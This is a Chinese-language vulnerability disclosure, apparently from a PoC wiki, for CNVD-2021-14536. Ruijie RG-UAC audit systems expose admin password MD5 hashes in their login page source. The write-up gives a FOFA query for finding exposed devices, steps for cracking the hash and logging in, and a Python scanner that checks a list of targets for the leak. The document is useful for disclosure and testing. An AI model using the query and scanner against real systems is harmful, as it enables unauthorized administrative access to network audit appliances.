 # 锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露 CNVD-2021-14536

## 漏洞描述

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

## 影响版本

> [!NOTE]
>
> 锐捷RG-UAC统一上网行为管理审计系统

## FOFA

> [!NOTE]
>
> title="RG-UAC登录页面"

## 漏洞复现

来到登录页面

![](image/ruijie-1.png)

按F12查看源码,可以发现账号和密码的md5形式

![](image/ruijie-2.png)

解密md5得到密码后即可登录系统

![](image/ruijie-3.png)

![](image/ruijie-4.png)



## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](image/ruijie-14.png)